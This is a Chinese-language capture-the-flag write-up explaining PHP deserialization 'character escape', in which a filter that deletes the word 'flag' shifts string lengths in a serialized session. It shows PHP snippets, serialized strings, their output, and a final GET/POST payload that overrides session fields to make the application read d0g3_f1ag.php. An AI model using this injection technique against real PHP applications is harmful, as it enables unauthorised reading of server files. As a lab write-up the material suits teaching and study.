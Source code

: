 	<?php
	$str='a:2:{i:0;s:8:"Hed9eh0g";i:1;s:5:"aaaaa";}abc';
	var_dump(unserialize($str));


	输出
	array(2) { 
    [0]=> string(8) "Hed9eh0g" 
    [1]=> string(5) "aaaaa" 
	}
  
可以看出来php反序列化识别是有一定范围的，范围之外的字符并不影响反序列化。这就是字符逃逸。我们构造一些特殊的变量值就可以达到舍去一部分变量。   

因为我们不能对img元素进行直接的修改，但是我们可以对user和function元素进行变量覆盖，那么如果我们这样构造：  

	<?php
	$_SESSION["user"]='flagflagflagflagflagflag'；
	$_SESSION["function"]='a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:2:"dd";s:1:"a";}'; //ZDBnM19mMWFnLnBocA==是d0g3_f1ag.php的base64编码
	$_SESSION["img"]='L2QwZzNfZmxsbGxsbGFn';
	echo serialize($_SESSION);
	
	输出
	a:3:{s:4:"user";s:24:"flagflagflagflagflagflag";s:8:"function";s:59:"a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:2:"dd";s:1:"a";}";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";}   

可以看到我们给数组中元素function的赋值很特殊，其结尾为;}并且我们在function元素中又添加了**我们自定义的img元素的序列化后的字符串**，当对session数组进行序列化后，我们发现花括号的闭合在元素function序列化后就已经闭合了所以说这里真正在接下来反序列化中起到作用的只到元素function结束。  

	a:3:{s:4:"user";s:24:"flagflagflagflagflagflag";s:8:"function";s:59:"a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:2:"dd";s:1:"a";}  

这样就把原本固定的img元素的序列化给舍去了转而成为了我们想要的img的序列化。但是如果就这样反序列化的话结果却不是我们想要的。  

	array(3) { 
	["user"]=> string(24) "flagflagflagflagflagflag"
	[function]=> string(59) "a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:2:"dd";s:1:"a"  

img并没有被成功反序列化。但是我们已经知道了这个序列化的字符串是要经过filter()函数过滤的，而flag字符会被替换为空，所以说真正的序列化字符串是这样的：  

	{s:4:"user";s:24:"";s:8:"function";s:59:"a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:2:"dd";s:1:"a";}  

因为是s:24:后面为空，那么在反序列化时会往后推24个字符,那么也就是读取**;s:8:"function";s:59:"a"**正好以分号**；**结尾，符合反序列化规则，而后面的s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";本来就是按照我们的想法来序列化的，自然也就满足了反序列化的规则，所以最后得到的反序列化结果为：  

	array(3) { 
	["user"]=> string(24) "";s:8:"function";s:59:"a" 
	["img"]=> string(20) "ZDBnM19mMWFnLnBocA==" 
	["dd"]=> string(1) "a" 
	}    

和之前一样是三个元素，但是img元素的值已经彻底改变了。实现了字符逃逸。  

那么接下来我们就按这个思路来post我们的参数就行了:  

	GET:?f=show_image //使界面执行读写函数。

	POST:_SESSION[user]=flagflagflagflagflagflag
	&_SESSION[function]=a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:2:"dd";s:1:"a";}  //对之前已经被定义的user元素和function元素进行变量覆盖。  
